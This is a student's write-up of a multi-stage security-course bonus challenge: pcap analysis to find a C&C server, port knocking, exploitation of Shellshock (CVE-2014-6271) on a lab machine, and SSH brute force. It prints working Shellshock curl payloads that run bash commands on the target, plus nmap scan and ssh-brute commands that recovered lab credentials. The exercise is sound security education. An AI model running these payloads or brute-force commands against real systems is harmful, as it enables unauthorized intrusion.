





# BSY bonus task report

This report describes step by step solution of bonus task present in Security Systems course on Czech Technical University.

## ⚡️ First stage

We are receiving a pcap file, unique token, and server information as the entry point to this assignment — the pcap file you can find in this repo. Other provided information is listed below.

- server: `192.168.1.167:9292`
- my token identificator for this task: `HorribleDancer`

First of all, let's check out what we can find on this server just by running `ncat 192.168.1.167 9292` command on my virtual server in BSY network. Getting result:

```text
***************************************************************
Bonus assignment part 1. Not relevant to other assignemnts.
****************************************************************


<Grinch> Please provide your token
HorribleDancer
<Grinch> What is the IP of the C&C?

<Grinch> What is the periodicity of the communication in seconds? (Remove decimals, for example 122.7 becomes 122)

<Grinch> How many times did the victim computer connect to the C&C IP?

<Grinch> Was any malicious executable downloaded (Yes/No)?

```

So now we have a bunch of question which can be answered after pcap analysis.

### pcap analysis

From the obtained questions, we can estimate that the pcap file is capturing some kind of attack. We know this attack may use Command and Control botnet, and we can detect this by some periodically repeated action. When we open the capture file in most popular capture analysis software [Wireshark](https://www.wireshark.org/), it's clear that it has precisely 10000 records and 2:07 hours duration.


As we can see from the table above, minor traffic is IPv6 and IPv4 UDP, so it takes a while to guess this is regular traffic. The other 84% of the traffic is TCP communication and even TLS, so we cannot read what is going on there. Apply filter `TCP and not TLS` screen remaining traffic. Next, we are trying to find out which IP address belongs to whom. From this part, we use Google to see some additional information about IPs and WolframAlpha to find the owner. Notes from this part:

```text
10.0.2.15 - moje ip
74.125.206.94, 216.58.206.14, 90.182.119.13 - google
52.18.63.80 - amazon
209.197.3.15 - suspicious
37.48.125.108 - suspicious
104.16.85.20, 104.20.30.249 - cloudflare
45.33.109.129 - http://clker.com clipart
```



From the HTTP traffic, we can detect partitions of the file being downloaded but not the whole package. So let's try to answer questions to see if we are on a good way to complete.

```text
<Grinch> Please provide your token
HorribleDancer
<Grinch> What is the IP of the C&C?
209.197.3.15
<Grinch> What is the periodicity of the communication in seconds? (Remove decimals, for example 122.7 becomes 122)
1
<Grinch> How many times did the victim computer connect to the C&C IP?
11
<Grinch> Was any malicious executable downloaded (Yes/No)?
No
You answered correctly 1 out of 4 questions.
```

Nope. It still needs some time to analyze.

While we insert parts of capture to Google at one point, it returns the result from [www.packettotal.com](www.packettotal.com). It is interesting, so let's look inside. We can find that the record on Packet Total is the same as our pcap.

[packettotal record](https://packettotal.com/app/analysis?id=fb1f4903ca5852da9d6baf9b38c4afed)

Packet Total helps me to determine what is going on in this pcap. It marks `37.48.125.108` as an interesting IP address with a lot of connections.



So we tried to add some filters to look at this IP address.



What is it? Can you see the time column? It looks like a periodical conversation with this IP address. One of the questions is on the periodicity of C&C server. The `37.48.125.108` machine may be botnet's home server. Let's zoom to TCP conversation with this IP:



Yes. This looks pretty weird. It is a periodical heartbeat in the first connection. After this, it stops for approximately one hour and then:



A new connection with the message above. Maybe this is the botnet activation sequence. Now we may have all the answers to our questions. C&C server IP is now clear also the periodicity of the communication. And from pcap we can see two initiated connections. Let's try it:

```text
<Grinch> Please provide your token
HorribleDancer
<Grinch> What is the IP of the C&C?
37.48.125.108
<Grinch> What is the periodicity of the communication in seconds? (Remove decimals, for example 122.7 becomes 122)
300
<Grinch> How many times did the victim computer connect to the C&C IP?
2
<Grinch> Was any malicious executable downloaded (Yes/No)?
No
<Grinch> Saving you, is that what you think I was doing? Wrong-o. I merely noticed that you're improperly packaged, my dear.
<Grinch> Here is something you migt need later: 3232235903
Knock knock... Your VM might be handy.
Hint: MzcgMzAgMzAgMzAgMmMgMzggMzAgMzAgMzAgMmMgMzkgMzAgMzAgMzAgMmMgMzEgMzAgMzAgMzAgMzA=
<Grinch> This is the end of stage 1. You rock!
```

Yes. Successful. We continue to the next stage.

## ⚡️ Second stage

Okay great. The first stage ends with the message includes some hints and ciphers. We now have some number that looks kind of random, but it definitely hides some piece of information. One of the first things I personally do if I don't know I use Google search. Let's try to find `3232235903` on Google and see.


Yes. The answer is in the third position; the number `3232235903` is a decimal representation of IPv4 address `192.168.1.127` probably internal address of our next target machine. What to do next? We still have hint laying there asking for attention. If we focus on `MzcgMzAgMzAgMzAgMmMgMzggMzAgMzAgMzAgMmMgMzkgMzAgMzAgMzAgMmMgMzEgMzAgMzAgMzAgMzA=` string, we can see it's a continuous sequence of characters that end with an equal sign. From previous experiences with encoding, I know that Base64 has a similar output pattern. Let's decode this string.

```bash
print "MzcgMzAgMzAgMzAgMmMgMzggMzAgMzAgMzAgMmMgMzkgMzAgMzAgMzAgMmMgMzEgMzAgMzAgMzAgMzA=" | base64 -d
```

The output is:

```bash
37 30 30 30 2c 38 30 30 30 2c 39 30 30 30 2c 31 30 30 30 30
```

So now we have a pair of numbers combined with the characters `c`. It's still somehow encoded information; in this case, it seems like hex. Let's add some pipe and look for what we can get.

```bash
$ print "MzcgMzAgMzAgMzAgMmMgMzggMzAgMzAgMzAgMmMgMzkgMzAgMzAgMzAgMmMgMzEgMzAgMzAgMzAgMzA=" | base64 -d | xxd -r -p
> 7000,8000,9000,10000
```

Group of some numbers? Maybe ports for a previously found machine? That's a lot of information. We can try to scan given machine and see if some of these ports is not open. For this purpose, I use a fast Nmap scan to just look around. It is easy to detect this kind of scan, but in this task, it does not matter.

```bash
nmap -sS -n -v 192.168.1.127 -p- -T5 --min-parallelism 200 --max-rtt-timeout 5 --max-retries 1 --max-scan-delay 0 --min-rate 1000

Host is up (0.00031s latency).
Not shown: 65531 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
902/tcp  open  iss-realsecure
6667/tcp open  irc
8081/tcp open  blackice-icecap
MAC Address: 08:00:27:06:8F:03 (Oracle VirtualBox virtual NIC)
```

So we have some ports opened, but none of these ports are exact numbers `7000, 8000, 9000` or `10000`. Port `22` is a provider of ssh. In this case, it is just remote access to manage the machine. The closest to our hint is the port `8081`, providing some weird service.

```bash
$ curl 192.168.1.127:8081
```

A quick look for what this service is. And it looks like a website hosting.  

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href="www.asdf.com/">www.asdf.com/</a></li>
</ul>
<hr>
</body>
</html>
```

After a more in-depth analysis of this website, here is nothing unusual. Compare to the original `www.asdf.com` website accessible from the public internet, this clone is more or less the same as the original site. Let's continue with the port analysis.

We have a remaining ports `902` and `6667`. On port `902` is another ssh-agent. Not interesting for us. After accessing the last port, we are getting short ASCII animation. Which unfortunately hides no new information on our treasure path.

```text
                  .........    @@@@@    @@@@@        ..........
                  .........   @     @  @     @       ..........
                  ........       @@@   @     @        .........
                  .......      @@      @     @         .......
                  ......      @@@@@@@   @@@@@  th       ......
                  .....     -----------------------      .....
                  ....        C  E  N  T  U  R  Y         ....
                  ...       -----------------------        ..
                  ..        @@@@@ @@@@@ @   @ @@@@@        ..
                  ==          @   @      @ @    @          ==
                __||__        @   @@@@    @     @        __||__
               |      |       @   @      @ @    @       |      |
      _________|______|_____  @   @@@@@ @   @   @  _____|______|_________


< o                                                                            >
```

Uhhh. No ports are remaining, and we still have no hint of what to do. Let's go back to hint from previous stage. Try to deeper analyze the text.

After reading hint over and over, I realized that the phrase `Knock knock...` may lead to [Port Knocking](https://wiki.archlinux.org/index.php/Port_knocking) technic, which is a technic for hiding ports from external access. The ports are simply opened after some "knock-knock" sequential of requests to the firewall. This idea well corresponds to port hint, which is `7000,8000,9000,10000`. Is this possible key to open hidden doors?

Let's send a simple port knocking sequence:

```bash
for x in 7000 8000 9000 10000;
    do nmap -Pn --host-timeout 201 --max-retries 0 -p $x 192.168.1.127;
done
```

and another port scan to find out what happened:

```bash
Nmap scan report for 192.168.1.127
Host is up (-0.0022s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
902/tcp  open  iss-realsecure
6667/tcp open  irc
8080/tcp open  http-proxy
8081/tcp open  blackice-icecap
MAC Address: 08:00:27:06:8F:03 (Oracle VirtualBox virtual NIC)
```

Bingo. New port opens! Make GET request to this port response HTML page contains this: 

```html
This is a vulnerable web application for showcasing CVE 2014-6271, a.k.a. Shellshock.</br>
</br>
Vulnerability as a Service, brought to you by <a href="https://hml.io/" target="_blank">https://hml.io/</a>.</br>
</br>
For further details please see <a href="https://github.com/hmlio/vaas-cve-2014-6271" target="_blank">https://github.com/hmlio/vaas-cve-2014-6271</a>.</br>
</br>
```

Here we have a demo for CVE 2014-6271 with a helpful link to complete documentation and source codes. Oh, I really like beautiful, bright, and simple documentations.


By this exploitation, I gain access to the shell of this Docker container. After a quick look around, I'm more familiar with this tool and find the home directory of the user `grinch`.

```bash
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /home/grinch'" http://192.168.1.127:8080/cgi-bin/stats

XmasPresent.txt

$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /home/grinch/XmasPresent.txt'" http://192.168.1.127:8080/cgi-bin/stats

“Maybe Christmas (he thought) doesn’t come from a store. Maybe Christmas perhaps means a little bit more.” — The Grinch
```

After listing, I open the only one file in this directory and... Thank you, Grinch. But this is just one part. I need more.

Let's list more thoroughly.

```bash
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls -la /home/grinch'" http://192.168.1.127:8080/cgi-bin/stats

-rw-rw-r-- 1 1000 1000  350 Dec 20 14:30 .trmaljak.txt
-rw-rw-r-- 1 1000 1000  128 Dec 20 16:18 XmasPresent.txt

$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /home/grinch/.trmaljak.txt'" http://192.168.1.127:8080/cgi-bin/stats

[a-zA-Z0-9]{3} symetric:
22c03696b86ea94519f339f1ce9810aa61392e9f0622512771be0abcdf1b54afb1314906793c7f67f72f82739f313ce67b4daff7d87f880e78ff1cd54723507006a3dbc6f11abcaa8658fd1a5913eafccb618afc21263a1262460197150c9a7c49704719e87bb263737d5b94c6f5f6e1045bede72a5ff86dedec93a967b444bea0564f7fae3131ee2838c9f5eab125af3992c742d872cf18fa31766f999827ca49
```

Yes. This is what we are looking for. The first thing which attracts my attention is the word `symmetric`. This message is probably some kind of cipher that belongs to a group of symmetric ciphers. This part takes a long time to guess which cryptography algorithm it is. One of the brainstorm ways was the hint point to passphrase of length, which matches this regex `[a-zA-Z0-9]`, but this a lot of words, and we still do not know the algorithm. And then I thought - regex points to algorithm name and not on passphrase pattern.

I'm searching on the internet for all possible algorithms, and the first algorithm on [Wikipedia](https://en.wikipedia.org/wiki/Symmetric-key_algorithm), which match this regex is `RC4`. Let's see what we get. Because the text was unique for each of us, the passphrase must also be unique, it leads to use my private token as a passphrase and BINGO! We are at the end of the second stage.


## ⚡️ Third stage

From the previous stage, we bring just a text from the picture above. This part was really frustrating, even though the text speaks more or less clear speech. However, we spend a lot of time thinking about what to do. After hours of desperation, we are trying to run brute force to ssh port `22` with built-in users and passwords combinations from Nmap library. The result? Nothing.

And then it came the additional hint from Ondřej:

```text
- When in doubts, try to roll back and see what have you discovered during the previous stages.
- Sometimes you have to use force to get things going. If that is not enough, use more force.
- When running scripts with nmap, be sure it doesn't stop prematurely. 'unpwdb.timelimit' might be useful for that
- Choose your words carefully. If used properly, you shouldn't need more than 20000 of them.
- Speaking of which, take hints from the master lyrist here: https://www.youtube.com/watch?v=y3Ca3c6J9N4
```

Now it is crystal clear. The brute force is actually a solution but using a huge password dictionary called `rockyou`. So we are creating Nmap command and start brute force again. It is a built-in script from Nmap library with the custom user and password databases. User, in this case, is `joy` from the text hint.

```bash
$ nmap -sS -sV -p 22 192.168.1.127 -v -n --script ssh-brute --script-args
s userdb=users,passdb=1000000.txt,brute.firstonly=true,unpwdb.timelimit=0
```

after while we have results:

```text
| ssh-brute:
|   Accounts:
|     joy:leicester - Valid credentials
|_  Statistics: Performed 11893 guesses
```

Now we can log in and look at what is in my home.

```bash
joy@grinchLair: ~ $ ls
Stocking

joy@grinchLair: ~ $ cat Stocking

For Final stage (Stage 4) you should desing and implement a C&C bot using the github repo/github gist(https://gist.github.com/).
Design your bot such that it can perform following tasks in the target machine:

	* List files in specified directory
	* List active users
	* List running processes
	* Action of your own choice (Describe in the report)

And report results back to the control server.

Good luck and Merry Xmas!
```

And it is done. This stage was short in terms of work but not in terms of spend time.

## ⚡️ Fourth stage

Unfortunately, we have no time to implement this bot. 🙁

## Summary

The bonus task was a great summary of the whole Security Systems course, and it compels a man to use a lot of acquired knowledge from the semester. As a first stage - pcap analysis. This stage was at the beginning, like looking into the crystal ball, but it helps us to improve our skills and discover new technics in malware detection. Some part was a little bit tricky, and the significant benefit was Packet Total in this case. The next challenge was Port Knocking, which was an absolutely new experience and a real problem to solve. Then come, from my point of view, the most exciting part with an exploit in Debian Buster, which was really good prepared. The crucial fact, in this case, was to realize that the whole vulnerable server on port `8080` running in Docker container due to we cannot see users from the operating system under this Docker environment. The final part, in this way, was the grand finale in the form of a brute force attack. Unfortunately, we already have no more time to implement the C&C bot. So that is all, final exams are coming.

**Thank you for a great and inspiring course. It was a lot of fun with a lot of experience.**
